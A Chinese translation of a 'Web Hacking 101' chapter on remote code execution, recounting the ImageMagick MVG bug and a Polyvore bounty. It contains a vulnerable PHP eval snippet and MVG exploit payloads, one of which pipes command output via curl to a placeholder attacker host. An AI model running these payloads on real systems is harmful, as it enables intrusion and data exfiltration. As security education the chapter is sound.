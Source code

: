 ```yaml
---
title: "Web Hacking 101 中文版 十五、代码执行"
id: csdn66475786
---
```


# 十五、代码执行

> 作者：Peter Yaworski
> 
> 译者：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 描述

远程代码执行是指注入由漏洞应用解释和执行的代码。这通常由用户提交输入，应用使用它而没有任何类型的处理或验证而导致。

看一下这行代码：

```
$var = $_GET['page']; 
eval($var);
```

这里，漏洞应用可能使用 URL`index.php?page=1`，但是，如果用于输入了`index.php?page=1;phpinfo()`，应用就会执行`phpinfo`函数，并返回其内容。

与之类似，远程代码执行有时用于指代命令注入，OWASP 区分了这两点。使用命令驻入，根据 OWASP，漏洞应用在主机操作系统上执行任何命令。同样，这也由不合理处理和验证用户输入导致，这会导致用户输入传递给操作系统的命令。

例如 PHP 中，这可能表现为用户输入传递给`system`函数。

## 示例

### 1\. Polyvore ImageMagick

ImageMagick 是个软件包，通常用于处理图像，例如剪裁、缩放等等。 PHP 的 imagick、Ruby 的 rmagick 以及 paperclip，以及 NodeJs 的 imagemagick 都利用了它。在 2016 年 4 月，该库中发现了多个漏洞，其中可利用的漏洞之一就是执行远程代码，这就是我关注的。

简单来说，ImageMagick 并没有合理地传给他的过滤文件名称，并且最终用于执行`system`方法调用。因此，攻击者利益传入命令来执行，就像`https://example.com”|ls“-la`，它会被执行。一个来自 ImageMagick 的例子是：

```
convert 'https://example.com"|ls "-la' out.png
```

现在，有趣的是，ImageMagick 为 MVG（Magick Vectire Graphics）文件定义了自己的语法。所以，攻击者能够创建文件`exploit.mvg`，带有下列代码：

```
push graphic-context 
viewbox 0 0 640 480 
fill 'url(https://example.com/image.jpg"|ls "-la)' 
pop graphic-context
```

这之后会传给该库，并且如果站点存在漏洞，代码会执行并列出目录中的文件。

了解其背景之后，Ben Sadeghipour 测试了 Yahoo acquisition 站点以及 Polyvore 是否存在漏洞。就像他博文中所述，Ben 首先在它所控制的本地机器上测试了该漏洞，来确认`mvg`文件是否正常工作。这是他使用的代码：

```
push graphic-context 
viewbox 0 0 640 480 
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`id | curl http://SOMEIPADDRESS:80
80/ -d @- > /dev/null`' 
pop graphic-context
```

这里你可以看到，它使用了 CURL 库来调用 SOMEIPADDRESS（将其修改为你服务器的地址）。如果成功，你就会得到像这样的响应：

![](../img/26454525f2eba2d78c7c52bce8104249.png)

Ben Sadeghipour ImageMagick 测试的服务器响应

下面 Ben 浏览了 Polyvore，将文件上传为它的资料头像，并在它的服务器上收到了这个响应：

![](../img/449cf7a7262020b6b5fb4eb1f5b339f9.png)

Ben Sadeghipour Polyvore ImageMagick 响应

> 重要结论
> 
> 阅读是成功渗透的重要组成部分，这包括阅读软件漏洞和常见漏洞，以及披露（CVE 标识符）。当你碰到没有安装安全更新的站点时，了解之前的漏洞能够帮助你。这里， Yahoo 已经修补了服务器，但是没有正确完成（我找不到关于这是什么意思的解释）。一次你，了解 ImageMagick 漏洞让 Ben 特地以这个软件为目标，并得到了 $2000 的奖金。

## 总结

远程代码执行，就像其他漏洞一样，通常是用户输入没有合理验证和处理的结果。这里提供的例子中，ImageMagick 没有合理转义可能为恶意的内容。它和 Ben 对该漏洞的知识一起，让他能够特地寻找和测试一些漏洞站点。对于搜索这些类型的漏洞来说，没有简单的答案。要注意发布的 CVE，并且留意站点所使用的软件，它们可能会过时，也可能存在漏洞。